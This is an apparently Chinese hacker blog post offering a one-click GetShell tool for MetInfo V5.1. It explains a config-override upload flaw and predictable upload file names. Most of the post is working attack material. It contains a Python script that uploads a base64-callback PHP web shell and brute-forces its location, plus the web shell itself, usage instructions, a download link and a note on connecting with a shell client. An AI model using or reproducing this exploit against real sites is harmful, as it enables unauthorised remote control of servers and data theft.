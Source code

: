 title: MetInfo V5.1 GetShell一键化工具
date: 2016-06-08 22:40:32
update: ""
author: me
tags:
- Hacker
- Tools
categories:
- Hacker
topic: ""
cover: ""
draft: false
preview: ""
top: false
type: ""
hide: false
config: null


---


----------
# 漏洞解析：
----------
**config/config.inc.php**
```php
$langoks = $db->get_one("SELECT * FROM $met_lang WHERE lang='$lang'");

if(!$langoks)die('No data in the database,please reinstall.');

if(!$langoks[useok]&&!$metinfoadminok)okinfo('../404.html');

if(count($met_langok)==1)$lang=$met_index_type;

$query = "SELECT * FROM $met_config WHERE lang='$lang' or lang='metinfo'";//看这里

$result = $db->query($query);

while($list_config= $db->fetch_array($result)){

	if($metinfoadminok)$list_config['value']=str_replace('"', '&#34;', str_replace("'", '&#39;',$list_config['value']));

	$settings_arr[]=$list_config;

	if($list_config['columnid']){

		$settings[$list_config['name'].'_'.$list_config['columnid']]=$list_config['value'];

	}else{

		$settings[$list_config['name']]=$list_config['value'];

	}

}

@extract($settings);
```
----------
<!--more-->
访问

http:///localhost/metinfo5.1/index.php?lang=metinfo

`SELECT * FROM met_config WHERE lang='metinfo' or lang='metinfo'`

----------
## 文件命名方式：
----------
**/feedback/uploadfile_save.php**
```php
srand((double)microtime() * 1000000);

$rnd = rand(100, 999);

$name = date('U') + $rnd;

$name = $name.".".$ext;

```
**文件保存在/upload/file/目录**

命名方式就是时间戳去掉后三位，紧接着一个三位数的随机数

可爆破：

如

http://127.0.0.1/upload/file/1465394396.php

----------

# 一键化利用工具：

----------

**本程序基于python编写**

```python
#!/usr/bin/env python
#-*- coding: utf-8 -*-

import requests
import Queue
import threading
import time
import sys


headers = {'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.10 Safari/537.36'}

urls = Queue.Queue()
#http://hb.jhxjd.com/upload/file/1441445378.php

def bp(urls,time_out):
    while not urls.empty():
        base_url = urls.get()
        response = None

        try:
            time.sleep(int(time_out))#延时设置
            response = requests.get(base_url,headers=headers)
            if response.status_code == 404:
                print 'Not Fount----%s\n' % base_url
        except:
            continue
        finally:
            if response:
                with open('url.txt','a+') as f:
                    f.write('%s?e=YXNzZXJ0\n'%base_url)

def main(target_url,thread_num,time_out):

    #取出当前时间戳并删除后四位
    now = str(int(time.time()))[:-4]

    #将所有的待爆破地址遍历并加入队列
    for i in range(0,10):
        for j in range(100,1000):
            num_str = ''.join((str(i),str(j)))
            url = ''.join(('%s/upload/file/%s' % (target_url,now),num_str,'.php'))
            urls.put(url)

    #上传文件
    with open('xiaoma.php','w+') as fi:
        fi.write("<?php $e = $_REQUEST['e'];register_shutdown_function(base64_decode($e), $_REQUEST['Akkuman']);?>")
    data = {
            'fd_para[1][para]':'filea',
            'fd_para[1][type]':'5'
            }
    files = {'filea': open("xiaoma.php", 'rb')}
    upload_url = '%s/feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo' % target_url
    res = requests.post(upload_url,data = data,files=files)
    #等待两秒  文件上传
    time.sleep(2)




    #启动多线程
    for i in range(int(thread_num)):
        t = threading.Thread(target = bp,args=(urls,time_out,))
        t.start()


if __name__ == '__main__':
    if len(sys.argv) != 4:
        print 'Example : %s http://www.xxx.com 20 0' % sys.argv[0]
    else:
        main(sys.argv[1],sys.argv[2],sys.argv[3])

```

程序略显粗糙

为了方便，我也把他打包成了**exe**

然后闲着没事，想着简单地给他做了个**界面**,这样的
![GUI](http://7xusrl.com1.z0.glb.clouddn.com/MetInfo5.1GetshellGui.png)

----------
# 文件说明
----------
> MetInfo V5.1上传漏洞getshell利用工具

> 	作者 : Akkuman

> 漏洞原理详见http://www.wooyun.org/bugs/wooyun-2010-0139168

> 使用说明：
> 本目录有两个文件，一个py，一个exe
> 因为exe是py文件打包而成，故文件较大
> 64位系统测试使用通过
> 
> 如果你安装了py2.x环境  py文件使用方法
> 打开cmd
> python baopo.py http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> exe命令行文件使用方法
> 打开cmd
> baopo.exe http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> GUI程序，应该不用说
> 
> 关于getshell与结果
> 上传的是回调一句话木马
> ```php
> <?php >$e=$_REQUEST['e'];register_shutdown_function(base64_decode($e),$_>REQUEST['Akkuman']);?>
> ```
> 菜刀连接，密码是Akkuman
> 
> 爆破结果会生成在**url.txt**

----------
# 下载地址：
----------
[(访问码:1475)](http://cloud.189.cn/t/v263QbMJVJ3u )

*转载请注明出处*

*作者博客 hacktech.cn | 53xiaoshuo.com*
